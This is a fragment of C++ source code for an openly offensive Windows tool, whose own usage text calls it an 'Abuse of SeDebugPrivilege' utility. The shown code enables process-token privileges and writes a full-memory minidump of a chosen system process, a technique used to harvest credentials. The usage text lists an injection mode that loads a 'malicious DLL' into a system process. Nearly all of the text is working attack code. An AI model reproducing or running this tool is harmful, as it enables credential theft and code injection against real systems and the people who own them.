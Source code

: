 ```c++
    else if (!wcscmp(expType, L"Minidump"))
    {
        dumpFile = CreateFileW(lpOutputFile, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if (dumpFile == INVALID_HANDLE_VALUE)
        {
            wprintf(L"[-] CreateFileW Error: [%u].\n", GetLastError());
            return status;
        }
        status = MiniDumpWriteDump(hProcess, dwProcessId, dumpFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
        if (!status)
        {
            wprintf(L"[-] MiniDumpWriteDump Error: [%u].\n", GetLastError());
            return status;
        }
        wprintf(L"[*] Dump the memory of %ws process into %ws.\n", lpProcessName, lpOutputFile);
    }

    return status;
}

BOOL EnableTokenPrivilege(HANDLE hToken, LPCWSTR lpName)
{
    BOOL status = FALSE;
    LUID luidValue = { 0 };
    TOKEN_PRIVILEGES tokenPrivileges;

    // Get the LUID value of the privilege for the local system
    if (!LookupPrivilegeValueW(NULL, lpName, &luidValue))
    {
        wprintf(L"[-] LookupPrivilegeValue Error: [%u].\n", GetLastError());
        return status;
    }

    // Set escalation information
    tokenPrivileges.PrivilegeCount = 1;
    tokenPrivileges.Privileges[0].Luid = luidValue;
    tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

    // Elevate Process Token Access
    if (!AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, sizeof(tokenPrivileges), NULL, NULL))
    {
        wprintf(L"[-] AdjustTokenPrivileges Error: [%u].\n", GetLastError());
        return status;
    }
    else
    {
        status = TRUE;
    }
    return status;
}

void PrintUsage()
{
    wprintf(
        L"Abuse of SeDebugPrivilege by @WHOAMI (whoamianony.top)\n\n"
        L"Arguments:\n"
        L"  -h                          Show this help message and exit.\n"
        L"  -e <Injection, Minidump>    Choose the type of exploit.\n"
        L"  -p <ProcessName>            Specifies the system process name.\n"
        L"  -m <DLL>                    Specifies the malicious DLL path.\n"
```